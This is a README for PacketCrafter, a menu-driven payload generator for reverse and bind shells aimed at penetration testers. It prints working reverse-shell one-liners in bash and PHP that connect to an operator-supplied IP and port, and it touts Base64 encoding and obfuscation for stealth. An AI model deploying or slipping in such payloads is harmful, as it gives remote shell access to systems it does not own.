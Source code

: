# **PacketCrafter**

PacketCrafter is a versatile and intuitive payload generator for various reverse and bind shells. Designed with simplicity in mind, this tool is a powerful asset for penetration testers, ethical hackers, and cybersecurity enthusiasts. It supports multiple payload types, encoding, and obfuscation techniques to ensure seamless exploitation in controlled environments.

## **Features**

- **Bash Reverse Shell**: Generate bash payloads for reverse shell connections.  
- **Netcat Reverse Shell**: Create Netcat payloads to initiate reverse shells.  
- **Bash Bind Shell**: Produce bash payloads for bind shells, allowing connections from remote hosts.  
- **Meterpreter Reverse TCP**: Leverage `msfvenom` to create Meterpreter payloads for Windows systems.  
- **PHP Reverse Shell**: Generate PHP scripts for reverse shell execution.  
- **Python Reverse Shell**: Craft Python payloads for reverse shells over TCP.  
- **Windows Reverse Shell**: Use Netcat to generate reverse shell payloads for Windows.  
- **Payload Encoding**: Encode payloads in Base64 for stealth and bypass techniques.  
- **Payload Obfuscation**: Apply simple obfuscation techniques for added stealth.  

## **Requirements**

1. Linux-based operating system.  
2. Tools and dependencies:
   - `figlet` for banner display.
   - `msfvenom` for generating Meterpreter payloads.
   - `nc` (Netcat) for reverse and bind shells.  
3. Python 3.x (for specific reverse shells).  

## **Usage**

1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/PacketCrafter.git
   cd PacketCrafter
   ```

2. Make the script executable:
   ```bash
   chmod +x PacketCrafter.sh
   ```

3. Run the script:
   ```bash
   ./PacketCrafter.sh
   ```

4. Follow the menu options to generate the desired payload.

## **Menu Options**

Upon execution, you'll see a menu with the following options:

1. **Generate Bash Reverse Shell**  
2. **Generate Netcat Reverse Shell**  
3. **Generate Bash Bind Shell**  
4. **Generate Meterpreter Reverse TCP**  
5. **Generate PHP Reverse Shell**  
6. **Generate Python Reverse Shell**  
7. **Generate Windows Reverse Shell**  
8. **Encode Payload in Base64**  
9. **Obfuscate Payload**  
10. **Exit**  

## **Example Usage**

- **Bash Reverse Shell**  
  Enter the IP address and port to create the payload. The script generates a file named `bash_reverse_shell.sh`. Example payload:  
  ```bash
  bash -i >& /dev/tcp/<ip>/<port> 0>&1
  ```

- **PHP Reverse Shell**  
  Example payload saved as `php_reverse_shell.php`:  
  ```php
  <?php exec('/bin/bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"'); ?>
  ```

- **Base64 Encoding**  
  Encodes a payload into Base64 for stealthy deployment:
  ```bash
  base64 bash_reverse_shell.sh > bash_reverse_shell.sh.b64
  ```

## **Customization**

Feel free to customize the script to add additional payload types or advanced obfuscation techniques. Modify the functions in the script to suit your specific requirements.

## **Disclaimer**

**PacketCrafter is intended for educational purposes and authorized penetration testing only. Unauthorized use of this tool is strictly prohibited. The developers assume no responsibility for misuse.**
